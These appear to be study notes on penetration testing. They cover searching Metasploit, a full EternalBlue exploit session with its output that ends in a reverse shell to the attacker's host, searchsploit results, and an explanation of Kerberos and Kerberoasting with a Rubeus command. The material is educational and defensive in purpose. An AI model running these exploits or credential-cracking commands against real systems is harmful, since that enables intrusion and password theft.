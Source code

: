 ## Table of Contents

    - [Kerberoasting](#Kerberoasting)
      - [Kerberos](#Kerberos)
        - [Kerberoasting attacks](#Kerberoasting\attacks)

When it comes to the MITRE ATT&CK Framework, the topics covered in this section fall under Execution and Persistence

Exploitation/system compromise, serve two purposes for us. One of them is to demonstrate that vulnerabilities are legitimate and not just theoretical. 


We could narrow the scope with some additional parameters, like specifying the type using `type:exploit`, for example. This may be useful if you have a long list of results and you need to make it easier to identify the right one.  
  
**Searching Metasploit**  
  `msf6> search eternalblue`

**Eternal Blue Exploit**  
  
```bash
Msf6> use exploit/windows/smb/ms17_010_eternalblue  
msf exploit(windows/smb/ms17_010_eternalblue)> set RHOST 192.168.86.24  
RHOST => 192.168.86.24  
msf exploit(windows/smb/ms17_010_eternalblue)> exploit  
  
[*] Started reverse TCP handler on 192.168.86.57:4444  
[*] 192.168.86.24:445 - Connecting to target for exploitation.  
[+] 192.168.86.24:445 - Connection established for exploitation.  
[+] 192.168.86.24:445 - Target OS selected valid for OS indicated by SMB reply  
[*] 192.168.86.24:445 - CORE raw buffer dump (51 bytes)  
[*] 192.168.86.24:445 - 0x00000000 57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32 Windows Server 2  
[*] 192.168.86.24:445 - 0x00000010 30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20 008 R2 Standard  
[*] 192.168.86.24:445 - 0x00000020 37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63 7601 Service Pac  
[*] 192.168.86.24:445 - 0x00000030 6b 20 31 k 1  
[+] 192.168.86.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply  
[*] 192.168.86.24:445 - Trying exploit with 12 Groom Allocations.  
[*] 192.168.86.24:445 - Sending all but last fragment of exploit packet  
[*] 192.168.86.24:445 - Starting non-paged pool grooming  
[+] 192.168.86.24:445 - Sending SMBv2 buffers  
[+] 192.168.86.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.  
[*] 192.168.86.24:445 - Sending final SMBv2 buffers.  
[*] 192.168.86.24:445 - Sending last fragment of exploit packet!  
[*] 192.168.86.24:445 - Receiving response from exploit packet  
[+] 192.168.86.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!  
[*] 192.168.86.24:445 - Sending egg to corrupted connection.  
[*] 192.168.86.24:445 - Triggering free of corrupted buffer.  
[*] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.24:50371) at 2023-01-09 19:52:40 -0600  
[+] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==  
[+] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-==-=  
[+] 192.168.86.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=--=
```


**searchsploit Results for Eternal Blue**  
  
```
kilroy@quiche:~$ searchsploit "eternal blue"  
--------------------------------------- --------------------------------------  
Exploit Title                        |  Path  
                                      | (/usr/share/exploitdb/)  
--------------------------------------- --------------------------------------  
Microsoft Windows Windows 7/2008 R2 (x | exploits/windows_x86-64/remote/42031.py  
Microsoft Windows Windows 7/8.1/2008 R | exploits/windows/remote/42315.py  
Microsoft Windows Windows 8/8.1/2012 R | exploits/windows_x86-64/remote/42030.py  
--------------------------------------- --------------------------------------  
Shellcodes: No Result
```



### Kerberoasting
- Type of password cracking attack that relies on getting access to a network.
- Based on the fact that Active Directory authentiation over a network uses the **Kerberos** protocol.

#### Kerberos
- Client-Server mode
- Client Authentication - Authentication Server (AS)
- Client service authentication
- Client making a service request

**KDC**:  Key Distribution Center
**TGS**: Ticket-Granting Service; issues time-stamped messages called *ticket-granting-tickets* (**TGTs**) that are encrypted using the TGS's secret key. The time stamp and encrypted message help to protect the overall design as these tickets shouldn't be spoofed since they require the encryption key that belongs to the TGS. Additionally, as they are time-stamped, they can help protect against replay attacks, where a message gets put onto the network that was previously captured in order to get access to a service protect by kerberos
![[Pasted image 20240226185530.png]]

##### Kerberoasting attacks
- MUST have a compromised account on the domain. The compromised user account will receive service account that is part of the AD design. The attacker, who has control of the compromised user account, wants to compromise a service on the network. They'll request a service ticket for that service. A domain controller with the Active Directory infrastructure will create a TGS ticket, encrypting it with the service password retrieved from the AD database. Only two entities that have the password that could decrypt the message at this point are the domain controller and the service itself.
- The domain controller sends the ticket to the user, which is under control of an attacker. The ticket gets sent to the service, which decrypts it to determine whether the user has been granted permission to the service. This ticket is in memory and can be extracted soi it can then be cracked offline.
- **Rubeus** is a popular tool for performing kerberoasting attacks against windows domains. 
Example Kerberoasting attack:
```powershell
 .\rubeus.exe kerberoast /user:bogus/domain:washere.local /dc:192.168.4.218
```


